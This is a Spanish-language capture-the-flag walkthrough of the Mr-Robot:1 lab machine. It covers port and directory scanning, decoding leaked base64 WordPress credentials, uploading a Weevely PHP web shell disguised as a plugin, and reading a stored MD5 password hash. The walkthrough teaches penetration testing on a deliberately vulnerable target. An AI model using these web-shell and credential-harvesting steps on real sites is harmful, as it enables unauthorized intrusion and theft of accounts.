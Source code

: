 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=3CF700FF&width=400&height=70&lines=Mr.Robot_1"></a>
</p>
  
<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/mr-robot-1,151/

**[Online]:**

Root-Me: https://www.root-me.org/fr/Capture-The-Flag/CTF-all-the-day/test?lang=es

<h1 align="center"></h1>

</br>

- *Paso 1:* Escanear todos los puertos que están abiertos con Nmap. 
```
nmap -p- --open -sC -n -Pn -vvv ctf14.root-me.org
```
![1](https://user-images.githubusercontent.com/75953873/173256530-9e554740-e9d2-450e-8e1a-209d773c7247.png)

Puertos abiertos: [22,80,443]

- *Paso 2:* Enumerar directorios web con Dirb. 
```
dirb http://ctf14.root-me.org /usr/share/dirb/wordlists/small.txt
```
![2](https://user-images.githubusercontent.com/75953873/173256804-380ff8a7-8b69-4153-8ee8-8c1eb7c8eb0d.png)

URL objetivo: http://ctf14.root-me.org/license

![3](https://user-images.githubusercontent.com/75953873/173256860-82d25cc3-6a8c-4e59-97a8-cbe263df5162.png)

Credenciales ofuscadas a base64: **ZWxsaW90OkVSMjgtMDY1Mgo=**

- *Paso 3:* Decodificar credenciales con Python y Bash.

`Python:`
```python
import base64
key = 'ZWxsaW90OkVSMjgtMDY1Mgo='
print(base64.b64decode(key))
```

`Bash:`
```
echo 'ZWxsaW90OkVSMjgtMDY1Mgo=' | base64 -d
```
![4](https://user-images.githubusercontent.com/75953873/173257252-c7dac9d3-f612-44ff-b31b-9d9baf5d297e.png)

Usuario: `elliot`

Contraseña: `ER28-0652`

- *Paso 4:* Acceder al panel de administración de WordPress, generalmente se agrega `/wp-admin.php` o `/wp-login.php` al final del dominio.
```
http://ctf14.root-me.org/wp-login.php
```
![5](https://user-images.githubusercontent.com/75953873/173257567-b73aa894-5756-41d1-b73b-f31db5de3f3d.png)

Plugins **>** instalar plugins

![6](https://user-images.githubusercontent.com/75953873/173257615-a9b95d88-ca5a-4a92-95a3-3391c4bd38a3.png)

Agregar nuevo plugin **>** Subir plugin

![7](https://user-images.githubusercontent.com/75953873/173257639-ce85dec7-fc54-4830-88b4-f040fa379b14.png)

- *Paso 5:* Crear backdoor con Weevely.
```
weevely generate pass123 backdoor.php
```
![8](https://user-images.githubusercontent.com/75953873/173257694-583bc09c-8970-45bf-abd2-cd033643ef74.png)

- *Paso 6:* Subir backdoor como un plugin más.

![9](https://user-images.githubusercontent.com/75953873/173257782-8da08f9d-c687-458c-a84e-bb0cfd0ae0d0.png)

En el apartado de `Media` tenemos archivos e imágenes, el que nos interesa es el `backdoor.php` que acabamos de subir. Doble clic sobre él y copiamos la URL que esta en `Description`.

![10](https://user-images.githubusercontent.com/75953873/173257806-03d06d7d-9f12-4d0a-896a-daa654620609.png)

![11](https://user-images.githubusercontent.com/75953873/173257849-3f3aa920-9d27-4dd6-88fa-e26396948493.png)

URL: http://ctf14.root-me.org/wp-content/uploads/2022/06/backdoor.php

- *Paso 7:* Acceder al backdoor con Weevely.
```
weevely http://ctf14.root-me.org/wp-content/uploads/2022/06/backdoor.php pass123
```
![12](https://user-images.githubusercontent.com/75953873/173257930-15d0189a-e1bd-4a23-84df-7b79357ae5f5.png)

Entramos al direcorio `/home` **>** robot **>** `cat` para mostrar el contenido del archivo `password.raw-md5`.

![13](https://user-images.githubusercontent.com/75953873/173258021-b8bb555d-5578-4f35-a6ed-89c0c0a08a17.png)

Hash: c3fcd3d76192e4007dfb496cca67e13b

- *Paso 8:* Identificación de tipo de hash con Hash-Identifier.
```
hash-identifier
```
![14](https://user-images.githubusercontent.com/75953873/173258174-b4dc146e-bba1-4433-b52f-343b83020f9d.png)

Tipo de hash: MD5
